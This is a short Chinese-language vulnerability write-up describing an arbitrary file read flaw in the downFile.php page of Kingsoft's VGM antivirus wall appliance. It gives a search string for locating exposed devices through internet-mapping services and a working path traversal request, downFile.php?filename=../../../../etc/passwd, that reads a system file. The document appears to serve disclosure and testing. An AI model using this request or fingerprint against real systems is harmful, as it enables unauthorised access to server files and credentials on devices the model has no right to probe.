 # 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

# 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
金山 VGM防毒墙
```

## 网络测绘

```
"金山VGM"
```

## 漏洞复现

登录页面

![image-20230314090419140](images/image-20230314090419140.png)

验证POC

```
/downFile.php?filename=../../../../etc/passwd
```

![image-20230314090430563](images/image-20230314090430563.png)

